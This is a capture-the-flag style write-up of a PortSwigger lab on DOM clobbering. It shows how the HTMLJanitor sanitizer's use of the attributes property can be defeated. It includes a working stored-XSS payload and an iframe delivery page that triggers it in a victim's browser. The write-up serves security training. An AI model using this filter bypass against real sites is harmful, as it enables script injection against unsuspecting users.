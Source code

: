 # Clobbering DOM attributes to bypass HTML filters | Jan 14, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters), you'll learn: Clobbering DOM attributes to bypass HTML filters! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab uses the HTMLJanitor library, which is vulnerable to [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). To solve this lab, construct a vector that bypasses the filter and uses DOM clobbering to inject a vector that calls the `print()` function. You may need to use the exploit server in order to make your vector auto-execute in the victim's browser.

> Note:
>   
> The intended solution to this lab will not work in Firefox. We recommend using Chrome to complete this lab.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114212551.png)

In the home page, we can view other posts:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114212614.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114212626.png)

And we can leave some comments!

**View source page:**
```html
<h1>Comments</h1>
<span id='user-comments'>
<script src='resources/js/htmlJanitor.js'></script>
<script src='resources/js/loadCommentsWithHtmlJanitor.js'></script>
<script>loadComments('/post/comment')</script>
</span>
<hr>
<section class="add-comment">
    <h2>Leave a comment</h2>
    <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
        <input required type="hidden" name="csrf" value="9oej5v7jHWtGyQqNtz3SiOfqsLbdY1P5">
        <input required type="hidden" name="postId" value="3">
        <label>Comment:</label>
        <textarea required rows="12" cols="300" name="comment"></textarea>
                <label>Name:</label>
                <input required type="text" name="name">
                <label>Email:</label>
                <input required type="email" name="email">
                <label>Website:</label>
                <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
    </form>
</section>
```

As you can see, it's **loaded a JavaScript library called "HTMLJanitor", and a file `loadCommentsWithHtmlJanitor.js`.**

**`loadCommentsWithHtmlJanitor.js`:**
```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();
    let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let avatarImgElement = document.createElement("img");
            avatarImgElement.setAttribute("class", "avatar");
            avatarImgElement.setAttribute("src", comment.avatar ? comment.avatar : "/resources/images/avatarDefault.svg");

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + janitor.clean(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(avatarImgElement);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = janitor.clean(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};
```

Basically what this JavaScript does is send a GET request to `/post/comment`, and then stores all the comments to a JSON data. After that, display all comments.

**Also, it has an interesting setting:**
```js
let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});
```

**This `janitor` object allows user to use `<input>`, `<form>`, `<i>`, `<b>`, and `<p>` elements!**

- In `<input>`, we can only use `name`, `type`, `value` attribute.
- In `<form>`, we can only use `id` attribute.
- In `<i>`, `<b>`, and `<p>`, all attributes will be stripped.

**Also, by studying the HTMLJanitor library source code, I found that it uses `attributes` property to filter HTML attributes:**
```js
// Sanitize attributes
for (var a = 0; a < node.attributes.length; a += 1) {
var attr = node.attributes[a];

if (shouldRejectAttr(attr, allowedAttrs, node)) {
  node.removeAttribute(attr.name);
  // Shift the array to continue looping.
  a = a - 1;
}
```

Armed with above information, we can **clobber the `attributes` property, which enables us to bypass client-side filters** that use it in their logic. Although the filter will enumerate the `attributes` property, it will not actually remove any attributes because the property has been clobbered with a DOM node. As a result, we will be able to inject malicious attributes that would normally be filtered out.

**Payload:**
```html
<form id=x tabindex=1 onfocus=print()><input id=attributes>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215054.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215115.png)

**We can trigger the stored XSS payload via appending `#x` in the URL:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215235.png)

Nice!

**Next, we need to write a HTML payload to trigger the stored XSS payload to the victim:**
```html
<html>
    <head>
        <title>Clobbering DOM attributes to bypass HTML filters</title>
    </head>
    <body>
        <iframe src="https://0ae6000704211000c0405e3200e50002.web-security-academy.net/post?postId=3" onload="setTimeout(()=>this.src=this.src+'#x', 3000)"></iframe>
    </body>
</html>
```

When the `<iframe>` element is loaded, wait for 3 seconds, and then append `#x` to the `src` attribute's property, which triggers the `print()` XSS payload.

Let's host it and deliver to victim!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215720.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-7/images/Pasted%20image%2020230114215728.png)

Nice!

# What we've learned:

1. Clobbering DOM attributes to bypass HTML filters